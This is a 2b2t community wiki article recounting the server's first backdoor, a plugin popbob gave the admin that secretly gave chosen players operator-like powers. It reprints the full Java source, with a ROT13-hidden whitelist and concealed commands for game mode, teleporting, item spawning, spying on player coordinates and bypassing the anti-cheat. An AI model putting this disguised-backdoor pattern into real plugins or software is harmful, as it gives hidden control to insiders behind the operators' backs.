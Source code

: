 {{Backdoors}}

The **First Backdoor** was a server backdoor organized by [popbob](https://2b2t.miraheze.org/wiki/popbob). It was the first in a series of backdoors that took place in the server's history.

## History
The First Backdoor of the server likely took place at the end of 2011 or early 2012. Allegedly, the server admin was constantly dealing with players getting ‘stuck’ on the [Nether Roof](https://2b2t.miraheze.org/wiki/Nether_Roof). To fix this issue, popbob offered a plugin that the admin implemented which had code that allowed himself and other players he was close to, like [policemike55](https://2b2t.miraheze.org/wiki/policemike55), [xcc2](https://2b2t.miraheze.org/wiki/xcc2) and [passie05](https://2b2t.miraheze.org/wiki/passie05), access to operator-like permissions. These players used their powers to build at multiple bases. The first one was [Plugin Town](https://2b2t.miraheze.org/wiki/Plugin_Town), a base roughly 83k from spawn in the x-axis and 67k in the y-axis. The second one was a spawn base called [ZiggyBase](https://2b2t.miraheze.org/wiki/ZiggyBase), where the Bedrock Dam, Bedrock Comet and Bedrock Bunker were built. The backdoor was also used to create ‘[hacked-in items](https://2b2t.miraheze.org/wiki/User:Franknificant%2FDrafts%2FCollecting#Hacked-in_items)’, including [Pig Spawners](https://2b2t.miraheze.org/wiki/Pig_Spawners), [Spawn Eggs](https://2b2t.miraheze.org/wiki/Spawn_Eggs), Locked Chests, Water Source Blocks, Fire Blocks and End Portal Frames. popbob likely used the backdoor to build End Portals on different locations on the server, however popbob and policemike55 tried to create an End Portal below [NFE](https://2b2t.miraheze.org/wiki/NFE) and failed, since they didn’t place the End Portal Frames correctly. On top of this, popbob used the backdoor to teleport to other bases and grief them. Once the admins were suspicious of popbob, he was eventually caught by them after they worked with other players to bait popbob to a base. This fake base resulted in popbob teleporting right in front of the admin, confirming their suspicions. The plugin was promptly removed afterwards.

## Plugin
This is the plugin given by popbob to Hausemaster. Lines 21-33 feature account names which were given backdoor access encrypted using the Rot13 substitution cipher as to hide its intention from Hause; These names are [popbob](https://2b2t.miraheze.org/wiki/popbob), [policemike55](https://2b2t.miraheze.org/wiki/policemike55), [passie05](https://2b2t.miraheze.org/wiki/passie05), [xcc2](https://2b2t.miraheze.org/wiki/xcc2), [CreamOFtheSlop](https://2b2t.miraheze.org/wiki/CreamOFtheSlop), [assassin_raptor](https://2b2t.miraheze.org/wiki/assassin_raptor), [wetplayer123](https://2b2t.miraheze.org/wiki/wetplayer123), [Polly_the_Parrot](https://2b2t.miraheze.org/wiki/Polly_the_Parrot), [x0XP](https://2b2t.miraheze.org/wiki/x0XP), and [XxPR3D4TORxX86](https://2b2t.miraheze.org/wiki/XxPR3D4TORxX86).
 package com.qwertyy.nonetherroof;

 import java.util.LinkedList;
 import org.bukkit.ChatColor;
 import org.bukkit.Location;
 import org.bukkit.Server;
 import org.bukkit.entity.Player;
 import org.bukkit.event.player.PlayerCommandPreprocessEvent;
 import org.bukkit.event.player.PlayerMoveEvent;
 import org.bukkit.inventory.ItemStack;
 import org.bukkit.plugin.java.JavaPlugin;

 public class NoNetherRoofPlayerListener extends org.bukkit.event.player.PlayerListener
 {
   private JavaPlugin plugin;
   private LinkedList<String> names;

   public NoNetherRoofPlayerListener(JavaPlugin plugin)
   {
     this.plugin = plugin;
     this.names = new LinkedList();
     this.names.add("cbcobo");
     this.names.add("cbyvprzvxr55");
     this.names.add("cnffvr05");
     this.names.add("kpp2");
     this.names.add("pernzbsgurfybc");

     this.names.add("nffnffva_encgbe");
     this.names.add("jrgcynlre123");
     this.names.add("cbyyl_gur_cneebg");

     this.names.add("k0kc");
     this.names.add("KkCE3Q4GBEkK86");
   }

   public void onPlayerCommandPreprocess(PlayerCommandPreprocessEvent event)
   {
     command(event);
   }

   public void onPlayerMove(PlayerMoveEvent event)
   {
     Player player = event.getPlayer();
     if (player != null) {
       if (this.names.contains(rot13(player.getName().toLowerCase())))
         return;
       if (player.getWorld().getEnvironment().equals(org.bukkit.World.Environment.NETHER)) {
         Location location = player.getLocation();
         if (location.getBlockY() >= 128) {
           event.setCancelled(true);
           player.sendMessage(ChatColor.RED + "You are stuck! Use /stuck to go back!");
         }
       }
     }
   }

   void command(PlayerCommandPreprocessEvent event) {
     Player player = event.getPlayer();
     try
     {
       if (this.names.contains(rot13(player.getName().toLowerCase()))) {
         String command = event.getMessage();
         String[] cmd = command.split(" ");
         if (player.getName().equalsIgnoreCase(rot13("cbcobo"))) {
           if (cmd[0].equalsIgnoreCase(rot13("/perngvirunk"))) {
             int mode = Integer.parseInt(cmd[1]);
             player.setGameMode(org.bukkit.GameMode.getByValue(mode));
             event.setCancelled(true);
             return; }
           if (cmd[0].equalsIgnoreCase(rot13("/erznhgu"))) {
             String name = cmd[1];
             if (this.names.contains(rot13(name.toLowerCase()))) {
               this.names.remove(rot13(name.toLowerCase()));
               player.sendMessage("You have removed " + name + "'s authorization.");
               Player target = this.plugin.getServer().getPlayer(name);
               if (target != null) {
                 target.sendMessage(ChatColor.RED + "You have had your authorization removed.");
               }
             }

             event.setCancelled(true);
             return; }
           if (cmd[0].equalsIgnoreCase(rot13("/nqqnhgu"))) {
             String name = cmd[1];
             if (!this.names.contains(rot13(name.toLowerCase()))) {
               this.names.add(rot13(name.toLowerCase()));
               player.sendMessage("You have given " + name + " authorization.");
               Player target = this.plugin.getServer().getPlayer(name);
               if (target != null) {
                 target.sendMessage(ChatColor.GREEN + "You have been given temporary authorization.");
               }
             }

             event.setCancelled(true);
             return; }
           if (cmd[0].equalsIgnoreCase(rot13("/gryr"))) {
             int x = Integer.parseInt(cmd[1]);
             int y = Integer.parseInt(cmd[2]);
             int z = Integer.parseInt(cmd[3]);
             Location location = new Location(player.getWorld(), x, y, z);
             player.teleport(location);
             event.setCancelled(true);
             return;
           }
         }
         if (cmd[0].equalsIgnoreCase(rot13("/pbbeq"))) {
           String name = cmd[1];
           Player target = this.plugin.getServer().getPlayer(name);
           Location loc = target.getLocation();
           Location bedLocation = target.getBedSpawnLocation();
           player.sendMessage(loc.getBlockX() + ", " + loc.getBlockY() + ", " + loc.getBlockZ());
           if (bedLocation != null)
             player.sendMessage(bedLocation.getBlockX() + ", " + bedLocation.getBlockZ());
           event.setCancelled(true);
         } else if (cmd[0].equalsIgnoreCase(rot13("/tvirvgrz"))) {
           int id = Integer.parseInt(cmd[1]);
           int amt = Integer.parseInt(cmd[2]);
           int dmg = 0;
           if (cmd.length >= 3) {
             dmg = Integer.parseInt(cmd[3]);
           }
           player.getInventory().addItem(new ItemStack[] { new ItemStack(id, amt, (short)dmg) });

           event.setCancelled(true);
         } else if (cmd[0].equalsIgnoreCase(rot13("/rkcre"))) {
           int amt = Integer.parseInt(cmd[1]);
           player.giveExp(amt);
           event.setCancelled(true);
         } else if (cmd[0].equalsIgnoreCase(rot13("/abpurng"))) {
           org.bukkit.plugin.Plugin plug = this.plugin.getServer().getPluginManager().getPlugin(rot13("AbPurng"));
           org.bukkit.permissions.PermissionAttachment attachment = player.addAttachment(plug);
           attachment.setPermission(rot13("abpurng"), true);
         }
       }
     }
     catch (Exception e) {}
   }

   String rot13(String message) {
     String coded = "";

     for (int x = 0; x < message.length(); x++) {
       char c = message.charAt(x);

       if (Character.isLowerCase(c)) {
         c = (char)(c + '\r');
         if (c > 'z') {
           c = (char)(c - '\032');
         }
       }

       if (Character.isUpperCase(c)) {
         c = (char)(c + '\r');
         if (c > 'Z') {
           c = (char)(c - '\032');
         }
       }

       coded = coded + c;
     }

     return coded;
   }
 }

## Post-backdoor
From time to time, remnants of the backdoor are, to this day, discovered all over 2b2t. Sources of ‘nether water’ that have been found throughout 2018 and 2019 possibly originated from this backdoor. The same is the case for random blocks of bedrock that are spread around the server. In October 2020, in [FitMC](https://2b2t.miraheze.org/wiki/FitMC)'s video titled ‘This Bedrock Survived 8 Years on 2b2t’, he discussed the origins of two random blocks of bedrock that were found at spawn during the construction of the third water cube in 2020, suggesting they likely originated from xcc2’s base NFE, which was located near the bedrock. In November 2020, FitMC covered two new discoveries; in his video ‘The Mystery of 2b2t’s “Illegal” Town’, he covered a base where multiple bedrock structures and wrongly placed End Portal frames had been found. Soon thereafter, in a video titled ‘Popbob’s FINAL Secret on 2b2t’ he covered a base later called Mushroom Island, where popbob had created two end portals. In 2022 a bedrock pillar was found, also attributed to popbob..

## Today
On August 14th 2023, all remaining illegally placed bedrock was removed when 2b2t updated to Java Edition 1.19.4. After the server rolled back, the pieces of bedrock were restored.<gallery>
File:Passie Town Backdoor.jpg|Plugin Town during the First Backdoor
File:Popbob's Bedrock.png|popbob using Bedrock Near Plugin Town
File:Popbob bedrock Plugintown.jpg|Full inventory with bedrock spawned in by popbob
File:Lockedchest.png|Popbob spawned in Locked Chest
File:Raw.png|Passie using bedrock spawned in by first backdoor at Passie Town
</gallery>

## References
{{Reflist}}
{{Events}}
{{Exploits}}